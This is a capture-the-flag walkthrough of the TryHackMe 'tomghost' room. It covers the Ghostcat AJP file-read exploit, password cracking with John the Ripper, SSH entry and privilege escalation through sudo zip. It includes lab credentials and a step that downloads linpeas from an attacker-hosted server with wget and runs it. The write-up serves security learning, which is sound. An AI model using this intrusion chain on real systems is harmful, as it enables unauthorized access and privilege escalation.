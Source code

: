 # ***tomghost***
![alt text](https://i.imgur.com/OyETyLA.png "Tomghost logo")

*Plateform* - [**TryHackMe**](https://tryhackme.com/room/tomghost)

*Rating* - **Easy**

## **Step 1 : SCANNING AND ENUMERATION** 

### *Nmap Output*  

Our nmap scan was the following: `nmap -A -T4 -p- -v -oN tomghost_full 10.10.185.102`

#### *nmap results*

![alt text](https://i.imgur.com/JaQLTK6.png "nmap results")

What seems to be the most interesting is the combination of **ports 8009 and 8080**.

### *Port 8080 -- Tomcat webserver*

Traveling to http://tomghost.thm:8080/, we notice the webserver is running Apache Tomcat/9.0.30. This is an information that will come in handy later to validate our exploit. 

Since the webserver is showing the default Apache/Tomcat page, I checked to see if we had access to the manager app in hopes to get in using default credentials. However, we are greeted with a *403 - Forbidden*, indicating this is not the way in.

### *Port 8009 -- Apache Jserv*

If we google `Apache Jserv (Protocol v1.3) exploit`, we will find the [**CVE-2020-1938**](https://nvd.nist.gov/vuln/detail/CVE-2020-1938). This website explains the following:

>When using the Apache JServ Protocol (AJP), care must be taken when trusting incoming connections to Apache Tomcat. Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited in ways that may be surprising. In Apache Tomcat 9.0.0.M1 to **9.0.0.30**, 8.5.0 to 8.5.50 and 7.0.0 to 7.0.99, Tomcat shipped with an AJP Connector enabled by default that listened on all configured IP addresses. [[Source]](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

From reading this, we learn that our webserver version is most likely vulnerable to this exploit.

After digging a little, we find the exploit-db page for the [*Ghostcat File Read/Inclusion exploit*](https://www.exploit-db.com/exploits/48143) and more information pertaining to GhostCat:

>What is Ghostcat [CVE-2020–1938] vulnerability?
This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.
For example, the **/WEB-INF/web.xml** file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server. [[Source]](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1)

### *Port 22 -- SSH*

While it is nice to know SSH is enabled, SSH isn't usually a way in initially.

## **Step 2 : EXPLOITATION**

### *Getting information using GhostCat*

Let's run the ghostcat script found at step 2:

![alt text](https://i.imgur.com/TIEvmi3.png "Script results")

From reading the `web.xml` file, we found potential credentials : `skyfuck:8730281lkjlkjdqlksalks`

### *Exploiting the newly found credentials to find a way in*

Remember that ssh port? Yeah, let's try putting these credentials in.

![alt text](https://i.imgur.com/jPDO4at.png "We are in!")

BINGO! We are in as user *Skyfuck*.

## **Step 3 : POST-EXPLOITATION**

### *Enumerating the Skyfuck user*

![alt text](https://i.imgur.com/Psr2iyT.png "")

Now, there are a few things I want to point out on this screenshot. First off, we are in as a low privileged user, Skyfuck. Regardless of his dubious choice of username, he is very helpful to us and keeps important files on his home directory : `credential.pgp` and `tryhackme.asc`.

While I could waste a bit of time showing you the results of the enumeration for Skyfuck, the intended way in is the one described above.

#### Attempt 1 : Reading the credential.pgp file

The `tryhackme.asc` file is a PGP private key and we can assume it is the key to decrypt the `credential.pgp` file.

Let's try!

![alt text](https://i.imgur.com/dG5INEH.png "Can't read!")

Sadly, we need a passphrase and an empty string did not work. No problem, let's work on cracking it!

#### Cracking the tryhackme.asc passphrase using JohnTheRipper

First off, copy the content of the file to your attacker vm. Name this file however you like. I used a very original name for mine: `crackme.asc`. Next, we'll use JohnTheRipper to crack it.

1. Let's make our file in a format JTR can read: `gpg2john crackme.asc > crackme.hash`

2. Next, we can crack it! I used the `rockyou.txt` wordlist as my dictionary: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash`

Since I've already cracked it before, I won't get anything from the first command, but left it in for the write-up.

![alt text](https://i.imgur.com/nCV6yeE.png "Cracked passphrase!")

There we go! We have the passphrase: `alexandru`

#### Attempt 2 : Reading the credential.pgp file

We can now enter the passphrase and read the `credential.pgp` file.

![alt text](https://i.imgur.com/OamDYkS.png "Merlin credentials")

We find the `merlin` user credentials! `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### *Enumerating merlin*

First off, we notice merlin has the `user.txt` flag inside his home directory.

![alt text](https://i.imgur.com/lhulHWp.png "user.txt")

In order to get an idea of how to privesc, I will use the [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script, by carlospolop.

> NOTE: There are a few ways to put the `linpeas.sh` script on the victim machine. I chose the `wget` way. If you are stuck here, I've written the steps taken at the bottom of the write-up.

I can't show the whole output of the script as it would be too long, so let's focus on the important bit:

![alt text](https://i.imgur.com/At2Qf0v.png "Privesc way?")

Interesting! We see we can sudo the `zip` binary. Using [GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo), we find a way to privesc.

![alt text](https://i.imgur.com/xzirOD4.png "Rooted!")

**PWNED! We rooted the machine and found the root flag!**

## **SUMMARY**

All in all, this was an easy room but full of very nice elements! My main takeaways from this room are the following: ghostcat, pgp encryption (and decryption), and privesc via a sudo'able binary. 

As promised, the walkthrough for the linpeas.sh script.

> Attacker machine

1. Get [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script and put it in a file named `linpeas.sh`
2. Set up a python server: `python -m SimpleHTTPServer 80`

> Victim machine

1. `wget http://*Your-tun0-ip*/linpeas.sh`    # Download the script from your python http server
2. `chmod +x linpeas.sh`                      # Make it executable
3. `./linpeas.sh`                             # Run it!

> End of tutorial :) This is a very useful tool to keep in your back pocket as you will use it over and over again!

# **Thank you for reading this write-up!**
